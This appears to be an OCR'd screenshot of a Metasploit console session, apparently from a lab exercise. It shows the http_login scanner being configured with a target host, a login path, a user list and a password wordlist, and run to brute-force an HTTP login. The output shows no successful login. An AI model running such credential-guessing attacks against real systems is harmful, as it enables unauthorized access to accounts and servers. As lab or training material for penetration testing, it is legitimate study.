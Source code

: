 ```
   SSL               false                                                                     no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                     yes       Stop guessing when a credential works for a host
   THREADS           1                                                                         yes       The number of concurrent threads
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/http_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                     no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                      yes       Whether to print output for all attempts
   VHOST                                                                                       no        HTTP server virtual host

msf5 auxiliary(scanner/http/http_login) > set AUTH_URI /secure
AUTH_URI => /secure
msf5 auxiliary(scanner/http/http_login) > set RHOSTS 192.148.30.3
RHOSTS => 192.148.30.3
msf5 auxiliary(scanner/http/http_login) > unset USERPASS_FILE
Unsetting USERPASS_FILE...
msf5 auxiliary(scanner/http/http_login) > set USER_FILE /root/users.txt
USER_FILE => /root/users.txt
msf5 auxiliary(scanner/http/http_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/http/http_login) > run

[*] Attempting to login to http://192.148.30.3:80/secure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/http/http_login) > run
[*] Attempting to login to http://192.148.30.3:80/secure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```






